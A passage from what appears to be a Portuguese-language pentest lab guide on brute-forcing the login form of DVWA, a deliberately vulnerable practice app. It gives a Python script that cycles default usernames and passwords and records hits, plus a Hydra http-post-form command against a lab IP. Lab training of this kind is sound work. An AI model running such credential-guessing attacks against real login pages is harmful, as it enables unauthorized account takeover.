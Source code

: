 session = requests.Session()

# login inicial no DVWA (usuário/admin padrão: admin/password)
login = {"username":"admin","password":"password","Login":"Login"}
r = session.post(login_page, data=login)

users = ["admin","msfadmin","test"]
passwords = ["password","123456","msfadmin","admin","toor"]

os.makedirs("results", exist_ok=True)

for u in users:
    for p in passwords:
        data = {"username": u, "password": p, "Login":"Login"}
        r = session.post(target, data=data)
        # Ajuste a string de sucesso/erro conforme HTML real do seu DVWA:
        if "Credentials Accepted" in r.text or "Successful" in r.text or "Welcome" in r.text:
            print(f"[+] POSSÍVEL acerto: {u}:{p}")
            with open("results/dvwa_hits.txt","a") as f:
                f.write(f"{u}:{p}\n")
        else:
            print(f"[-] {u}:{p} inválido")
        sleep(0.5)


Execução:

mkdir -p results
python3 scripts/dvwa_bruteforce.py | tee results/dvwa_run.txt


Observação: ajuste as strings de sucesso ("Credentials Accepted", etc.) de acordo com o HTML retornado pela tua instância DVWA. Para formularios com CSRF tokens, o script precisa extrair e reenviar o token.

7.2 Alternativa: Hydra (http-post-form)

Exemplo:

hydra -L wordlists/users.txt -P wordlists/passwords.txt 192.168.56.102 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Invalid username or password" -V | tee results/hydra_dvwa.txt


A string Invalid username or password deve ser substituída pelo texto de erro real do site.

Evidências sugeridas:

results/dvwa_run.txt

results/dvwa_hits.txt

screenshot do formulário com credencial válida
